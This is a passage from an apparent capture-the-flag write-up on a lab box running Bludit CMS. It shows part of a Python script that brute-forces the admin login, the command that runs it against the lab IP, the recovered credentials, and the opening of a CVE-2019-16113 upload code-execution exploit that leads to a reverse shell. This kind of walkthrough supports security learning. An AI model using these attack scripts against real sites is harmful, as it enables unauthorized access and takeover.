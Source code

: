 #Printing Username:Password            
    process.status('Testing -> {U}:{P}'.format(U = Username, P = Password))            

#Conditional loops    
    if 'Location' in r.headers:
        if "/admin/dashboard" in r.headers['Location']:
            print()
            log.info(f'SUCCESS !!')
            log.success(f"Use Credential -> {Username}:{Password}")
            sys.exit(0)
    elif "has been blocked" in r.text:
        log.failure(f"{Password} - Word BLOCKED")
        
#Reading User.txt & Pass.txt files
userfile = open(Username_list).readlines()
for Username in userfile:
    Username = Username.strip() 
   
passfile = open(Password_list).readlines()
for Password in passfile:
    Password = Password.strip()   
    login(Username,Password) 
```
ran it like this:
```
python3 48942.py --url http://10.10.10.191/admin/login/ -u user.txt -p pass.txt
```
we got our creds
```fergus:RolandDeschain```
#reverseshell 
searching for bluditexploits I found something for msfconsole
**Bludit Directory Traversal Image File Upload Vulnerability**
but I avoided using it so started seaching again and i got this:
**Bludit v3.9.2 Code Execution Vulnerability in "Upload function" #1081**
link:https://www.exploit-db.com/exploits/48701
changed the script a bit
```
# Title: Bludit 3.9.2 - Directory Traversal
# Author: James Green
# Date: 2020-07-20
# Vendor Homepage: https://www.bludit.com
# Software Link: https://github.com/bludit/bludit
# Version: 3.9.2
# Tested on: Linux Ubuntu 19.10 Eoan
# CVE: CVE-2019-16113
# 
# Special Thanks to Ali Faraj (@InfoSecAli) and authors of MSF Module https://www.exploit-db.com/exploits/47699
